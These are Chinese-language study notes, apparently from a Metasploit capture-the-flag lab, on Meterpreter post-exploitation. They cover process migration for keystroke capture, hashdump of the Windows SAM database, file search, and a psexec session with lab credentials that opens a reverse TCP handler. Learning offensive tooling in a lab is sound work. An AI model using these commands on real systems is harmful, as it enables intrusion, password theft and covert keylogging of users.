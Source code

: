 ### 後期開發
`getuid`顯示當前正在運行 Meterpreter 的用戶     
了解您在目標系統上可能的特權級別（例如，您是 NT AUTHORITY\SYSTEM 之類的管理員級別用戶還是普通用戶？）
-------------------------------------------
`ps`命令將列出正在運行的進程。PID 列還將為您提供將 Meterpreter 遷移到另一個進程所需的 PID 信息。    
-------------------------------------------
`migrate`  遷移      
遷移到另一個進程將有助於 Meterpreter 與之交互  
```
例如，如果您看到目標上運行的文字處理器（例如 word.exe、notepad.exe 等），您可以遷移到它並開始捕獲用戶發送到此進程的擊鍵。某些 Meterpreter 版本將為您提供keyscan_start、 keyscan_stop和keyscan_dumpcommand 選項，以使 Meterpreter 像鍵盤記錄器一樣工作。遷移到另一個進程也可以幫助您擁有更穩定的 Meterpreter 會話
```
鍵入 migrate 命令，後跟所需目標進程的 PID。下面的示例顯示 Meterpreter 遷移到進程 ID 716。
```
meterpreter > migrate 716
[*] Migrating from 1304 to 716...
[*] Migration completed successfully.
meterpreter >
```

`當心; 如果您從較高權限（例如 SYSTEM）用戶遷移到由較低權限用戶（例如 Web 服務器）啟動的進程，您可能會失去您的用戶權限。您可能無法將它們取回。`     
----------------------------------
`hashdump` 命令將列出 SAM 數據庫的內容。SAM（安全帳戶管理器）數據庫在 Windows 系統上存儲用戶的密碼。這些密碼以 NTLM（新技術 LAN 管理器）格式存儲。
----------------------------------------------
`search` 命令對於定位文件很有用。在 CTF 中，這可用於快速找到標誌或證明文件，而在實際的滲透測試活動中，您可能需要搜索用戶生成的文件或可能包含密碼或帳戶信息的配置文件。    

```     
meterpreter > search -f flag2.txt
Found 1 result...
    c:\Windows\System32\config\flag2.txt (34 bytes)
meterpreter >
```              

## task5   
前面提到的命令，例如getsystem和hashdump將為特權升級和橫向移動提供重要的槓桿和信息。Meterpreter 也是一個很好的基礎，您可以使用它來運行 Metasploit 框架上可用的後期利用模塊。最後，您還可以使用 load 命令來利用其他工具，例如 Kiwi 甚至整個 Python 語言。    

使用`load`加載任何其他工具後 ，您將在菜單上看到新選項help 。      
```
可以使用下面的憑據來模擬 SMB（服務器消息塊）的初始攻擊（使用exploit/windows/smb/psexec）

Username: ballen

Password: Password1
```

```
msf6 exploit(windows/smb/psexec) > set lhost 10.9.1.236 
lhost => 10.9.1.236
msf6 exploit(windows/smb/psexec) > set rhosts 10.10.142.53
rhosts => 10.10.142.53
msf6 exploit(windows/smb/psexec) > set smbuser ballen
smbuser => ballen
msf6 exploit(windows/smb/psexec) > set smbpass Password1
smbpass => Password1
msf6 exploit(windows/smb/psexec) > run

[*] Started reverse TCP handler on 10.9.1.236:4444 
[*] 10.10.142.53:445 - Connecting to the server...
[*] 10.10.142.53:445 - Authenticating to 10.10.142.53:445 as user 'ballen'...
[*] 10.10.142.53:445 - Selecting PowerShell target
[*] 10.10.142.53:445 - Executing the payload...
[+] 10.10.142.53:445 - Service start timed out, OK if running a command or non-service executable...
```